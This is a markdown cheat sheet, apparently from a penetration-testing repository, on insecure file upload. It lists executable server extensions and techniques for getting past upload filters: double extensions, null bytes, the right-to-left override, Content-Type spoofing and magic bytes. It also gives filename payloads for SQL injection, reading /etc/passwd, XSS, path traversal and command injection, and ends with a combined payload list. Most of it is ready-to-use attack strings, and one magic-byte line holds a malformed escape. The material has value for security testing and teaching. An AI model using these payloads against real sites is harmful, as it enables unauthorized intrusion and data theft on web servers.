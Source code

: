 # Insecure File Upload

## Defaults extensions

```bash
#PHP
.php, , .php2,.php3, .php4, .php5, .php7, .pht, .shtml, .phps, .phar, .phpt, .pgif, .phtml, .phtm, .inc

#ASP
.asp, .aspx, .cer, .asa, .ashx, .asmx, .axd, .cshtm, .cshtml, .rem, .soap

#JSP
.jsp, .jspx, .jsw, .jspf, .jsv, .wss, .do, .action

#Perl
.pl, .pm, .cgi, .lib

#Coldfusion
.cfm, .cfml, .cfc, .dbm

#Flash
.swf

#Erland Yaws Web Server
.yaws
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
```

### Null byte

```
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
#In Windows when a file is created with dots at the end those will be removed
file.php......

#Whitespace characters
file.php%20

#Right ot Left Override
file.%E2%80%AEphp.jpg #Will became file.gpj.php
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Triple equal

```
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```

## All Filename payloads

```csharp
.jpg.php
.php.jpg
.php.blah123jpg
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.php......
.php%20
.%E2%80%AEphp.jpg
.js'(select*from(select(sleep(20)))a)+'.extension
.png../../../../../../../etc/passwd
'"><img src=x onerror=alert(document.domain)>.extension
../../../tmp/lol.png
.; sleep 10;
```
